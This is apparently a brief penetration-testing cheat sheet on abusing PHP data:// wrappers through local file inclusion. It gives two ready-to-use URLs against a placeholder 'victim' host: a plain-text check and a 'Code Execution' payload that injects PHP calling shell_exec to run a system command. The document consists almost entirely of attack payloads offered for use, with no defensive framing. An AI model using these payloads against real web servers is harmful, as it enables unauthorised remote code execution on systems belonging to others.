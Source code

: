# PHP Wrappers

## Through LFI

### Initial Check

```
http://victim/file.php?file=data:text/plain,hello world
```

### Code Execution

```
http://victim/file.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
